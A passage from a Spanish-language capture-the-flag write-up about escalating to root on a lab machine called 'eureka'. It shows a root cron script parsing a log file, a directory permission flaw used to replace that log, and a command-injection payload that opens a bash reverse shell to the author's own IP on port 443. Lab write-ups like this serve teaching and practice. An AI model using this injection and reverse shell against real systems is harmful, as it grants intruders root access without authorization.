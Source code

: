 Si volvemos a lanzar `pspy` veremos un proceso que ejecuta este script, y se utiliza el archivo de logs del micr-servicio `user-management-service`

~~~ bash
2025/08/30 23:38:01 CMD: UID=0     PID=483200 | /bin/bash /opt/log_analyse.sh /var/www/web/user-management-service/log/application.log
~~~

Si intentamos modificar directamente el archivo `application.log`, nos denegará el acceso debido a permisos

~~~ bash
miranda-wise@eureka:~$ echo 'HTTP Status: a[$(id)]' > /var/www/web/user-management-service/log/application.log

-bash: /var/www/web/user-management-service/log/application.log: Permission denied
~~~

Este conflicto de permisos ocurre porque tenemos permisos de escritura a nivel de grupo (`developers`) sobre el directorio pero no sobre el archivo `application.log`

~~~ bash
miranda-wise@eureka:~$ ls -l /var/www/web/user-management-service/log/application.log
-rw-rw-r-- 1 www-data www-data 17361 Aug 31 19:41 /var/www/web/user-management-service/log/application.log

miranda-wise@eureka:~$ ls -la /var/www/web/user-management-service/log
total 48
drwxrwxr-x 3 www-data developers  4096 Aug 31 15:54 .
drwxrwxr-x 6 www-data developers  4096 Mar 19 22:07 ..
-rw-rw-r-- 1 www-data www-data   17361 Aug 31 19:41 application.log
-rw-rw-r-- 1 www-data www-data    6558 Apr 23 07:36 application.log.2025-04-22.0.gz
-rw-rw-r-- 1 www-data www-data    6571 Aug 31 15:54 application.log.2025-04-23.0.gz
drwxrwxr-x 2 www-data www-data    4096 Apr  9 18:20 archive

miranda-wise@eureka:~$ id
uid=1001(miranda-wise) gid=1002(miranda-wise) groups=1002(miranda-wise),1003(developers)
~~~


## Root Time

Podemos simplemente renombrar el archivo `application.log` y volver a intentar crearlo y directamente eliminarlo

~~~ bash
miranda-wise@eureka:$ rm -f /var/www/web/user-management-service/log/application.log
~~~

A la hora de inyectar el comando, en mi caso envié directamente una consola a mi máquina por el puerto `443`, pero si quieres puedes asignar `suid` a la `bash` o lo que te convenga

~~~ bash
miranda-wise@eureka:~$ echo 'HTTP Status: a[$(bash -c "bash -i >& /dev/tcp/10.10.14.132/443 0>&1")]' > /var/www/web/user-management-service/log/application.log
~~~
